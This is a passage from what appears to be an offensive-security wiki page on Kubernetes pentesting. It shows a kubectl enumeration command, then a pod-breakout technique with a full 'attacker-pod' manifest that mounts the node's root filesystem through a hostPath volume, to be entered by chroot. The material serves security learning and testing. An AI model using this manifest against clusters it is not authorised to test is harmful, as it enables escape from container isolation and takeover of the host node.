 ### Get "all"

{% tabs %}
{% tab title="kubectl" %}
```
./kubectl get all
```
{% endtab %}
{% endtabs %}

## **Pod Breakout**

**If you are lucky enough you may be able to escape from it to the node:**

![](https://sickrov.github.io/media/Screenshot-161.jpg)

{% content-ref url="../../linux-unix/privilege-escalation/docker-breakout/" %}
[docker-breakout](../../linux-unix/privilege-escalation/docker-breakout/)
{% endcontent-ref %}

### Escaping from the pod

If you are able to create new pods you might be able to escape from them to the node. In order to do so you need to create a new pod using a yaml file, switch to the created pod and then chroot into the node's system. You can use already existing pods as reference for the yaml file since they display existing images and pathes.

```bash
kubectl get pod <name> [-n <namespace>] -o yaml
```

Then you create your attack.yaml file

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: ubuntu
    imagePullPolicy: Always
    name: attacker-pod
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```
